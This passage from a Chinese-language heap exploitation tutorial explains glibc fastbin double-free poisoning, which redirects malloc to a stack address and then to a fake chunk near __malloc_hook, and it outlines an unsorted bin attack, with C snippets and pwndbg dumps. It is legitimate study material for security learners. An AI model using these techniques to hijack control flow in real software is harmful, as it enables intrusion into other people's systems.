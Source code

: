 这时的`d`的地址和 fastbin 中剩下的那个 chunk1 地址一致, 如果此时我们令 d 指向栈上的 stack_var

```c
stack_var = 0x20;
*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));  // 修改chunk1的fd指针指向stack_var-8, 此时chunk1还在freelist中
malloc(8); // 与chunk2地址相同 0x555555757280
```

那么此时的 freelist 变为:

```
|free_list| -> |chunk1| -> |&stack_var-8|
```

现在我们再申请一个地址就能将栈地址放到 free list 的头部了:

```
malloc(8); // 与chunk1地址相同 0x555555757260
malloc(8); // &stack_var - 8, 0x7fffffffda48
```

此时我们控制了 malloc 的返回地址, 将 malloc 的地址分配到了栈上.

### 6.3 利用方式

我们可以将利用 double-free 和 fastbin-attack 将 malloc 劫持到`__malloc_hook`中. 但是要注意, malloc 的地址必须是一个合法的 fastbin chunk 结构, 必须有`size`位.

类似于如下形似:

```
0x5577ea4ec420: 0x0000000000000420      0x0000000000000021   # 劫持的地址格式应该和这里一样
0x5577ea4ec430: 0x00007ff53e1feb10      0x00007ff53e1fed00
0x5577ea4ec440: 0x0000000000000440      0x0000000000000021
```

而在`__malloc_hook`附近恰好有这么一个地址, 它在`__malloc_hook-0x23`处:

```gdb
pwndbg> x/20gx (long long)&__malloc_hook - 0x23
0x7f1992c30aed <_IO_wide_data_0+301>:   0x1992c2f260000000      0x000000000000007f  # 0x7f恰好在fastbin的size范围内
0x7f1992c30afd: 0x19928f1ea0000000      0x19928f1a7000007f
0x7f1992c30b0d <__realloc_hook+5>:      0x000000000000007f      0x0000000000000000
0x7f1992c30b1d: 0x0000000000000000      0x1992c30b00000000
```

此外, 还需让 malloc 的`size`大小为`0x70`才能通过 glibc 的检查

## 7. unsorted bin attack

### 7.1 原理

通过堆溢出的方式, 修改物理相邻 chunk 的 size 字段, 使之大小处于 unsorted bin 的大小范围, 且这个 size 包含了下下个 chunk。我们记这两个 chunk 为 chunk1 和 chunk2. 显然当我们 free chunk1 的时候，chunk1 的首地址会被记录在 unsorted bin 中。

此时申请 size 为 chunk1 原本 size 的 chunk3，chunk3 将会被 unsorted bin 中分割出，此时 unsorted bin 中记录的是 chunk2 的地址。再申请 size 为 chunk2 原本 size 的 chunk4，此时 unsorted bin 链表为空，chunk4 的地址与 chunk2 相同。free chunk4，chunk4 将进入 fastbin，但我们可以通过编辑 chunk2，实现控制 fastbin，通过设置 chunk2 的 fd 字段，我们就可以控制 fast bin 的尾链表，将我们下一次申请的 chunk 地址分配至任意地址。
